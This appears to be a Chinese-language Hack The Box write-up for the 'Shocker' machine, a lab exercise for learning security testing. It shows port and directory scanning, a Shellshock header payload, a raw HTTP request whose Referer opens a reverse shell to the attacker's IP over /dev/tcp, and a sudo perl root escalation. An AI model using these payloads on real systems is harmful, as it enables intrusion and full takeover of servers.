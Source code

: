 ```yaml
---
title: Shocker
date: 2020-11-10 05:34:53
category: Hack The Box
---
```


# Shocker Writeup

![](./1.png)

## 0x01 信息收集
就给一个 IP，不扫端口你还能咋地，`nmap` 走起来。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.56
```
发现两个开放端口。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面，title 无
- **2222**: OpenSSH 7.2p2，操作系统为 ubuntu linux

![](./2.png)
### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.56
```
无结果。

**总结：只开放了 tcp 两个端口。**

## 0x02 漏洞利用
根据端口逐一突破。

### 1、Port 80
Google 和 nmap 找了 apache 2.4.18 漏洞，无结果，目前只能从 web 入手。
80端口，web 应用，浏览器打开，就一个首页带个图片，没有功能按钮，看了下 console 没有什么提示，翻了下主页 html 也无发现。

![](./3.png)

目前为止没有入口，只能先扫下目录，用 dirbuster 跑默认字典，只有这几个结果。

![](./4.png)
**- icon**: 图片目录
**- cgi-bin**: 通用网关接口，可能存在 cgi 漏洞

cgi 使得用户可以通过浏览器执行脚本，这里需要找到具体的脚本路径，一般脚本位于 `/cgi-bin/*`，以此为 url 基础再跑一次扫描，限制后缀为 `.php,.sh,.py,.cgi,.pl`

![](./5.png)

发现存在脚本，路径为 `/cgi-bin/user.sh`

#### 手工利用

浏览器打开 `http://10.10.10.56/cgi-bin/user.sh`，burpsuite 抓包，会下载一个 `user.sh`（不知有何卵用）。
![](./17.png)

根据 cgi 漏洞，会在请求头里传递一个函数，后面跟着要执行的命令，构造方式比较复杂，懒得构造的我借助一下 `nmap`。
查过漏洞后知道有个代号叫 `shellshock`，正好也跟盒子名呼应，可以根据这个去查。
``` bash
cd /usr/share/nmap/scripts
ll | grep shellshock
```
![](./6.png)
不知道这个代号也没关系，通过关键字一样查，根据 url 参数，发现一个匹配的。
``` bash
cd /usr/share/nmap/scripts
grep "cgi-bin" -R ./ | grep -v cve
```
![](./7.png)

从脚本内容中找到 usage。

![](./8.png)
使用脚本打一下漏洞，地址指向 `burpsuite:8080`，同时配置 `burpsuite:8080` 重定向到靶机 `10.10.10.56:80`，这样扫描流量就会经过 burp 留下记录，方便后续调试。
``` java
nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
```
![](./9.png)
纳尼，没有扫出来？!

![](./10.png)
不慌，先看下具体请求。这里在三个 header 中注入了 sh 命令，执行结果在响应中可见，存在 RCE。

![](./11.png)
> #### 格式的坑
> 注意到下面还有条记录，执行 `ls` 返回 `500` 异常，这里经过调查发现有几个格式的坑，格式没对就不会回显或报异常。
> 此处因为 nmap 脚本有 bug，payload 少了一个 echo 导致扫描异常。
> 
> ![](./12.png)
> - 想正常回显，`() { :;};` 后面一定要先跟 `echo;`，再接上命令比如 `/bin/ls`
> - 命令一定要用绝对路径，比如 `ls` 要改成 `/bin/ls`
> 
> 所以这里正确构造应该是：`() { :;}; echo; /bin/ls /`。
> 
> ![](./13.png)
> 修改 nmap 脚本，把当 "cmd 为空" 时的 `echo;` 挪到下面。
> 
> ![](./18.png)
> ![](./19.png)
> 以 `whoami` 测试，返回用户名 `shelly`，扫描功能正常。
> ``` java
> nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=/usr/bin/whoami 127.0.0.1
> ```
> ![](./20.png)

综上所述，kali 监听 4444，发送反弹 shell 命令，获取到 `普通用户 shelly` 权限。
``` text
GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo;/bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
Host: localhost:8080
Connection: close
```
![](./14.png)

> **MSF**
> 比较简单啦，晚点再补充。

#### 提权

先检查 sudo 权限表配置 `sudo -l`，发现可以免密执行 `perl` 脚本，得。

![](./15.png)
在刚刚 `shell` 中 sudo 执行一句话 perl `/bin/bash`，获得 root 权限。
``` bash
sudo perl -e 'exec("/bin/bash")'
```
![](./16.png)

### 2、Port 2222 

没研究 233

## 0x03 攻击节点
#### 端口扫描 -> 目录扫描 -> 80.cgi-bin(shellshock)(shelly) -> sudo 配置不当提权(root)

## 0x04 学到什么
#### 1、对付 web 应用，没有入口的时候爬目录
#### 2、提权先考虑 sudo 配置不当，或利用 sudo 相关提权漏洞